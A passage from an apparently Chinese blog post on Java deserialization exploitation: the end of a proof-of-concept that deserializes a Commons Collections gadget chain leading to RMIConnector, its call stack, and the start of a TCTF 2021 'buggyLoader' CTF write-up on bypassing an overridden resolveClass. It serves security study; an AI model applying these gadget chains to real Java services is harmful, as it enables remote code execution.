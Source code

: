 ```java
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
}
```
调用栈：
```
findRMIServerJRMP:1993, RMIConnector (javax.management.remote.rmi)
findRMIServer:1924, RMIConnector (javax.management.remote.rmi)
connect:287, RMIConnector (javax.management.remote.rmi)
connect:249, RMIConnector (javax.management.remote.rmi)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
transform:125, InvokerTransformer (org.apache.commons.collections.functors)
get:151, LazyMap (org.apache.commons.collections.map)
getValue:73, TiedMapEntry (org.apache.commons.collections.keyvalue)
hashCode:120, TiedMapEntry (org.apache.commons.collections.keyvalue)
hash:339, HashMap (java.util)
readObject:1413, HashMap (java.util)
```

这条链在resolveClass方法被重写时利用的很多，其他情况比较鸡肋


参考：
[二次反序列化 看我一命通关](https://tttang.com/archive/1701/)

## 赛题复现
### [TCTF 2021]buggyLoader
这题也就是 javaDeserializeLabs 靶机的lab4：[https://github.com/waderwu/javaDeserializeLabs](https://github.com/waderwu/javaDeserializeLabs)

直接看lab4-shiro-blind，看到反序列化使用的是myObjectInputStream，代替了java默认的ObjectInputStream
![](https://img-blog.csdnimg.cn/943aa1e3dbc94466bc1ea3f8fef7abf2.png)

可以看到重写了resolveClass方法，使用了`URLClassLoader.loadClass()`而非默认的`Class.forName()`去加载类
![](https://img-blog.csdnimg.cn/8d27873d9dec442b9d0b1a9042a07347.png)
两者主要的不同点在于`URLClassLoader.loadClass()`不能够加载数组，举个栗子：
```java
public class test {
    public static void main(String[] args) throws Exception{
        System.out.println(Class.forName("[[B"));  // class [[B
        System.out.println(URLClassLoader.getSystemClassLoader().loadClass("[[B"));  // ClassNotFoundException
    }
}
```
这样一来，我们之前的payload都无法使用了，在CC链中我们的sink(终点)实际上只有2个，一个是利用`TemplatesImpl`类实现任意java代码执行，一个是利用`ChainedTransformer`类链式调用实现任意命令执行，但是这两者在这道题都没办法使用，前者使用了`byte[][]`，而后者则使用了`Transforme[]`
